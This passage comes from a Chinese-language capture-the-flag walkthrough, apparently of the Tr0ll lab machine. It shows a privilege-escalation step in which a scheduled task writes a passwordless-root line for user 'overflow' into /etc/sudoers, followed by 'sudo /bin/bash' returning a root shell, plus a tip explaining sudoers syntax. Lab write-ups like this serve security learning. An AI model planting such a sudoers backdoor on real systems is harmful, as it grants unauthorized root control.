- **效果**：赋予一个名为 `overflow` 的用户**无需密码**即可执行任何 root 命令的权限。

>[!tip] 
>**笔记拓展：`/etc/sudoers` 的作用与语法解析**
>1. /etc/sudoers\
文件的核心作用是 Linux 和 Unix 系统中用于配置 sudo 命令权限的核心配置文件。它决定了哪些普通用户（或用户组）可以在系统中以其他用户（通常是 `root` 超级管理员）的身份执行命令。系统管理员可以通过该文件精确控制某个人只能在特定的主机上、无密码或有密码地执行某几个特定的命令，从而遵循“最小权限原则”。
>2. 往里撰写内容的格式和含义
>```
overflow ALL=(ALL)NOPASSWD: ALL
>```
>`[用户名] [主机名]=([可切换到的目标用户]:[可切换到的目标用户组]) [是否需要密码] [可执行的命令]`

确认是否成功写入后



耐心等待最多 2 分钟让计划任务触发。任务执行后，直接使用 sudo 切换到 root 即可：

```bash
$ sudo /bin/bash
root@troll:/# whoami
root
```



至此，提权成功完成。

